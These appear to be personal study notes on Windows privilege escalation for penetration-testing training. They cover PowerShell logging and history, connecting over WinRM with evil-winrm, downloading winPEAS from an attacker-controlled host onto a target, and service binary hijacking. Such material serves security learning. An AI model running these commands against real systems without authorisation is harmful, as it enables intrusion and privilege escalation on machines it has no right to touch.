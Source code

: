 PowerShell Transcription and PowerShell Script Block Logging

Transcription: logging infor is equal to what a person would obtain from looking over the shoulder
stored in transcript files in home directory, a central directory of all users of a machine or network share collecting the files from all config

script block logging: much broader logging of information because it records the full context of the code and command, event also contains the original representation of the event

- Get-History: a list of commands executed in the past

- (Get-PSReadlineOption).HistorySavePath: from PSReadline if the admin does Clear-History 
just repeat the intresting commands and see what happens

to avoid issues use:
evil-winrm -i <ip> -u <username> -p "<password>" 
to connect to WinRM from kali
make sure the escape the ! in passwords with \ for example:
qwertqwertqwert123!! ==> qwertqwertqwert123\!\!

Applications and Services Logs
    → Microsoft
        → Windows
            → PowerShell
                → Operational
Script Block Logging location 4104 event log


Automating Enumeration

winPEAS

install peass

we can copy the thing via:
cp /usr/share/peass/winpeas/winPEASx64.exe .
to home directory
and serve the tool via python

iwr -uri http://<myip>/winPEASx64.exe -Outfile winPEAS.exe
this grabs the tool from kali

using powershell:
.\winPEAS.exe
runs the program

.\Seatbelt.exe -group=all

note that using the tool doesn't replace manuel work complement with above powershell commands just in case



Leveraging Windows Services

Service Binary Hijacking

scenario which fev creates a program that is not seecure during installation, allowing full Read and Write aaccess to all members of the user group

a lower privileged user could replace the program with a malicious one, by starting the service or rebooting the machine we can exe the binary
